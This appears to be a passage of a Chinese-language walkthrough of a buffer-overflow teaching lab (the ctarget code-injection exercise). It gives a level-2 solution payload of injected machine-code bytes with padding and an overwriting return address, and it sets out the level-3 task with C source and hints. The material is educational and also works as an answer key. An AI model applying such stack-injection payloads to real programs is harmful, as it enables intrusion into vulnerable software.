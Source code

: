 ```assembly
48 c7 c7 fa 
97 b9 59 68        /* movq  $0x59b997fa, %rdi */
ec 17 40 00        /* pushq $0x4017ec */
c3 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00
78 dc 61 55
00 00 00 00        /*注意别数错了！*/
```

成功 pass。

## level : 3

第三阶段还涉及代码注入攻击，但作为参数传递字符

在文件 ctarget 中，函数 hexmatch 和 touch3 的 C 语言表示如下：

```
 /* Compare string to hex represention of unsigned value */
 int hexmatch(unsigned val, char *sval)
 {
char cbuf[110];
 /* Make position of check string unpredictable */
 char *s = cbuf + random() % 100;
 sprintf(s, "%.8x", val);
 return strncmp(sval, s, 9) == 0;
 }
 
void touch3(char *sval)
 {
 vlevel = 3; /* Part of validation protocol */
 if (hexmatch(cookie, sval)) {
 printf("Touch3!: You called touch3(\"%s\")\n", sval);
 validate(3);
 } else {
 printf("Misfire: You called touch3(\"%s\")\n", sval);
 fail(3);
 }
 exit(0);
 }
```

您的任务是将 CTARGET 执行 touch3 的代码，而不是返回到测试。您必须让 touch3 看起来像是您传递了
个字符串表示的 cookie 作为其参数。
一些建议:

- 您需要在您的漏洞字符串中包含 cookie 的字符串表示形式。该字符串应由从最高有效位到最低有效位的八个十六进制数字组成，无需前缀“0x."
- 回忆一下，在C语言中，字符串表示为一系列字节，后面跟着一个值为0的字节。在任何 Linux 机器上输入“man ascii”以查看所需字符的字节表示。
- 您的注入代码应将寄存器%rdi 设置为该字符串的地址。
- 当调用 hexmatch 和 strncmp 函数时，它们会将数据推送到栈上，覆盖了 getbuf 所使用的缓冲区所占用的内存部分。因此，您需要小心放置您 cookie 的字符串表示形式。
